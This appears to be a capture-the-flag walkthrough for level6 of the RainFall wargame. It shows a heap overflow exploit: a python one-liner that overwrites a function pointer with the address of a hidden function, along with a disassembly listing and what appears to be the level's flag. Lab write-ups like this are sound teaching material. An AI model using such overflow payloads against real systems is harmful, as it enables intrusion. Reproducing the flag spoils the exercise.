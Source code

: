 # Walkthrough

## Solution

```
./level6 $(python -c "print '\x54\x84\x04\x08' * 19")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

## Explanation

### Execution

```
level6@RainFall:~$ ./level6 
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 hello
Nope
level6@RainFall:~$ ./level6 hello you
Nope
```

### Disassembly

```
info function
0x08048454  n
0x08048468  m
0x0804847c  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  


### Steps

The commande `objdump -D level6` shows the existence of two functions: \<m> and \<n>.  
\<n> is never called and has the address 0x08048454.  
\<m> is called by its address, which is stored in a heap address next to another heap address of size 64 to which is copied into argv[1] with strcpy.  
Overflowing argv[1] with the address of the function \<n> will overwrite the call to function \<m>.  

```bash
./level6 $(python -c "print '\x54\x84\x04\x08' * 19")
```